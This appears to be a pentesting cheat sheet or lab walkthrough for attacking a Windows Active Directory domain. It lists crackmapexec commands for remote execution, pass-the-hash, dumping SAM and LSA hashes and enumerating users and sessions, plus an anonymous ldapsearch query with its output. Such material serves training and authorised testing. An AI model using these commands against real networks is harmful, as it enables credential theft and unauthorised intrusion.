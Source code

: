 [**#Execute Commands**]

crackmapexec can execute commands **abusing** any of **mmcexec, smbexec, atexec, wmiexec** being **wmiexec** the **default** method. You can indicate which option you prefer to use with the parameter `--exec-method`:
```bash
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

<🔄 Alternative Step>

`ldapsearch -x -H ldap://192.168.56.128/ -s base -b '' "(objectClass=*)" "*" +`:
```
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject ←
# filter: (objectClass=*) ←
# requesting: * + ←
#

#
dn:
domainFunctionality: 7 ←
forestFunctionality: 7 ←
domainControllerFunctionality: 7 ←
rootDomainNamingContext: DC=SOUPEDECODE,DC=LOCAL ←
ldapServiceName: SOUPEDECODE.LOCAL:dc01$@SOUPEDECODE.LOCAL ←
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
```